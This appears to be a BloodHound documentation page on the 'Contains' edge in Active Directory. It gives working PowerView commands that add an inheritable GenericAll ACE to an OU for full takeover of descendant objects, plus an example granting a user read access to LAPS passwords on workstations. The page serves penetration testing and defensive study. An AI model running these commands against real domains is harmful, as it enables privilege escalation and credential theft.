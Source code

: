 ---
title: Contains
description: "GPOs linked to a container apply to all objects that are contained by the container. Additionally, ACEs set on a parent OU may inherit down to child objects."
---

<Frame>
  <img src="/hc/images/image-2-1.png"/>
</Frame>

## Abuse Info

With control of an OU, you may add a new ACE on the OU that will inherit down to the objects under that OU. Below are two options depending on how targeted you choose to be in this step:

### Generic Descendent Object Takeover

The simplest and most straight forward way to abuse control of the OU is to apply a GenericAll ACE on the OU that will inherit down to all object types. Again, this can be done using PowerView. This time we will use the New-ADObjectAccessControlEntry, which gives us more control over the ACE we add to the OU.

First, we need to reference the OU by its ObjectGUID, not its name. You can find the ObjectGUID for the OU in the BloodHound GUI by clicking the OU, then inspecting the _objectid_ value

Next, we will fetch the GUID for all objects. This should be ‘00000000-0000-0000-0000-000000000000’:

```bash
$Guids = Get-DomainGUIDMap
$AllObjectsPropertyGuid = $Guids.GetEnumerator() | ?{$_.value -eq 'All'} | select -ExpandProperty name
```

Then we will construct our ACE. This command will create an ACE granting the “JKHOLER” user full control of all descendant objects:

```bash
ACE = New-ADObjectAccessControlEntry -Verbose -PrincipalIdentity 'JKOHLER' -Right GenericAll -AccessControlType Allow -InheritanceType All -InheritedObjectType $AllObjectsPropertyGuid
```

Finally, we will apply this ACE to our target OU:

```bash
$OU = Get-DomainOU -Raw (OU GUID)
$DsEntry = $OU.GetDirectoryEntry()
$dsEntry.PsBase.Options.SecurityMasks = 'Dacl'
$dsEntry.PsBase.ObjectSecurity.AddAccessRule($ACE)
$dsEntry.PsBase.CommitChanges()
```
Now, the “JKOHLER” user will have full control of all descendent objects of each type.

### Targeted Descendent Object Takeoever

If you want to be more targeted with your approach, it is possible to specify precisely what right you want to apply to precisely which kinds of descendent objects. You could, for example, grant a user “ForceChangePassword” privilege against all user objects, or grant a security group the ability to read every GMSA password under a certain OU. Below is an example taken from PowerView’s help text on how to grant the “ITADMIN” user the ability to read the LAPS password from all computer objects in the “Workstations” OU:
```bash
$Guids = Get-DomainGUIDMap
$AdmPropertyGuid = $Guids.GetEnumerator() | ?{$_.value -eq 'ms-Mcs-AdmPwd'} | select -ExpandProperty name
$CompPropertyGuid = $Guids.GetEnumerator() | ?{$_.value -eq 'Computer'} | select -ExpandProperty name
$ACE = New-ADObjectAccessControlEntry -Verbose -PrincipalIdentity itadmin -Right ExtendedRight,ReadProperty -AccessControlType Allow -ObjectType $AdmPropertyGuid -InheritanceType All -InheritedObjectType $CompPropertyGuid
$OU = Get-DomainOU -Raw Workstations
$DsEntry = $OU.GetDirectoryEntry()
$dsEntry.PsBase.Options.SecurityMasks = 'Dacl'
$dsEntry.PsBase.ObjectSecurity.AddAccessRule($ACE)
$dsEntry.PsBase.CommitChanges()
```
## Opsec Considerations

Creation and modification of ACEs will be logged depending on the auditing setup on Domain Controllers.

## References

* [https://wald0.com/?p=179](https://wald0.com/?p=179)
* [https://blog.cptjesus.com/posts/bloodhound15](https://blog.cptjesus.com/posts/bloodhound15)
